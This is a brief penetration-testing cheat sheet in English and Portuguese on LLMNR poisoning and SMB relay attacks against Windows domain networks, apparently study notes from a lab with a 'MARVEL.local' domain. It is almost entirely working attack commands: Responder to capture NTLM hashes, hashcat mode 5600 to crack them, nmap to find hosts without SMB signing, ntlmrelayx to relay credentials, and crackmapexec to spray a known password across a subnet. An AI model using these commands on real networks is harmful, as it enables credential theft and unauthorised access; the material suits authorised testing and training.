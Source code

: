 # LLMNR Poisoning 

sudo responder -I eth0 -dwP
hashcat –m 5600 <hashfile.txt> <wordlist.txt>

# SMB Relay Attacks

nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24

Reuniremos todas as estações de trabalho sem assinatura SMB imposta e as colocaremos em um arquivo chamado targets.txt 



Utilizaremos Responder e ntlmrelayx para nosso ataque. Devemos primeiro configurar adequadamente o Responder para desabilitar as respostas SMB e HTTP, pois elas serão encaminhadas para ntlmrelayx (e eventualmente retransmitidas).

sudo nano  /etc/responder/Responder.conf

sudo responder –I eth0 -dwP



Por fim, iniciaremos o ntlmrelayx e aguardaremos a ocorrência de um evento.

sudo ntlmrelayx.py –tf targets.txt –smb2support

crackmapexec smb 192.168.28.0/24 -u peter -d MARVEL.local -p Password123
